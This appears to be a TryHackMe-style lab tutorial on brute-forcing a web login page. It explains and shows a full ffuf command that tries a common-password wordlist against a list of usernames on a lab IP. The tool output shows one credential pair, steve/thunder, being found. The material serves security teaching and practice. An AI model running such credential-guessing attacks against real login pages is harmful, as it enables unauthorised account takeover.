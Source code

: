 # Brute force

Using the valid\_usernames.txt file we generated in the previous task, we can now use this to attempt a brute force attack on the login page ([http://10.10.3.56/customers/login](http://10.10.3.56/customers/login)).

**Note: If you created your valid\_usernames file by piping the output from ffuf directly you may have difficulty with this task. Clean your data, or copy just the names into a new file.**

A brute force attack is an automated process that tries a list of commonly used passwords against either a single username or, like in our case, a list of usernames.

When running this command, make sure the terminal is in the same directory as the valid\_usernames.txt file.

Bruteforcing with ffuf

```shell-session
user@tryhackme$ ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.3.56/customers/login -fc 200
```

This ffuf command is a little different to the previous one in Task 2. Previously we used the **FUZZ** keyword to select where in the request the data from the wordlists would be inserted, but because we're using multiple wordlists, we have to specify our own FUZZ keyword. In this instance, we've chosen `W1` for our list of valid usernames and `W2` for the list of passwords we will try. The multiple wordlists are again specified with the `-w` argument but separated with a comma.  For a positive match, we're using the `-fc` argument to check for an HTTP status code other than 200.

Example ffuf -w ./valid\_usernames.txt:W1,/opt/useful/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1\&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.3.56/customers/login -fc 200

```
    /'___\  /'___\           /'___\       
   /\ \__/ /\ \__/  __  __  /\ \__/       
   \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
    \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
     \ \_\   \ \_\  \ \____/  \ \_\       
      \/_/    \/_/   \/___/    \/_/       

   v2.0.0-dev
```

***

:: Method : POST :: URL : http://10.10.3.56/customers/login :: Wordlist : W1: /home/kali/Desktop/valid\_usernames.txt :: Wordlist : W2: /opt/useful/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt :: Header : Content-Type: application/x-www-form-urlencoded :: Data : username=W1\&password=W2 :: Follow redirects : false :: Calibration : false :: Timeout : 10 :: Threads : 40 :: Matcher : Response status: 200,204,301,302,307,401,403,405,500 :: Filter : Response status: 200

***

\[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 75ms] \* W1: steve \* W2: thunder

:: Progress: \[404/404] :: Job \[1/1] :: 662 req/sec :: Duration: \[0:00:01] :: Errors: 0 ::
